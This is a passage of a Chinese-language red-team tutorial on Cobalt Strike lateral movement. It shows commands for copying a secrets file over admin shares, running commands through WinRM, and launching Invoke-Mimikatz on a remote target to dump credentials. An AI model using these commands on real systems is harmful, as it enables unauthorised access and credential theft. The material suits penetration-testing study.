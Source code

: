     ```powershell
    shell copy \\host\C$\foo\secrets.txt
    ```
- **查看文件列表**
    
    ```powershell
    shell dir /S /B \\host\C$
    # 其中 /S 表示列出指定目录及子目录所有文件，/B 表示使用空格式，即没有标题或摘要信息
    ```

### 使用WinRM运行命令

WinRM 运行在 5985 端口上，WinRM 是 Windows 远程管理服务，使用 WinRM 可以使远程管理更容易一些

如果想利用 WinRM 运行命令则可以使用下面的命令

```bash
powershell Invoke-Command -ComputerName TARGET -ScriptBlock {command here}

# powershell Invoke-Command -ComputerName SERVER20082 -ScriptBlock {net localgroup administrators}
```

![image-20211205184000337](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6f2f469dda92cf05b36d5bc71988e3f7c649e6e3.png)

> 注：如果命令运行失败可能是因为 WinRM 配置原因，可在 powershell 环境下运行 `winrm quickconfig`命令，输入 `y` 回车即可

命令运行后的结果，WinRM 也将通过命令行进行显示，因此可以使用 Powershell 的 Invoke 命令来作为远程工具，而不使用其他的恶意软件来控制系统

### Powersploit运行mimikatz

使用 PowerSploit 来通过 WinRM 运行 Mimikatz，只需要先导入 Invoke-Mimikatz.ps1 文件，再执行以下命令即可

```bash
powershell-import /path/to/Invoke-Mimikatz.ps1
powershell Invoke-Mimikatz -ComputerName TARGET
```

> 注：之前提了很多次的 PowerView 也是 PowerSploit 项目里众多 ps1 文件之一，Mimikatz 的 ps1 文件在 PowerSploit 项目的 Exfiltration 目录下

因为 beacon 上传文件大小限制在1MB，而 Invoke-Mimikatz.ps1 文件大小在 2 MB 多(有600K的版本)，因此直接运行 `powershell-import` 导入该文件会报错，这里可以选择使用 beacon 中的 upload 命令或者在当前会话的 File Browser 图形界面中上传该文件

```powershell
upload C:\path\Invoke-Mimikatz.ps1
```

上传之后通过 dir 命令可以查看到文件被上传到了C盘下，之后可以运行以下命令来导入该文件

```powershell
powershell import-module C:\Invoke-Mimikatz.ps1
```

最后再运行以下命令就能通过 WinRM 执行 Mimikatz 了

```powershell
powershell Invoke-Mimikatz -ComputerName TARGET
```
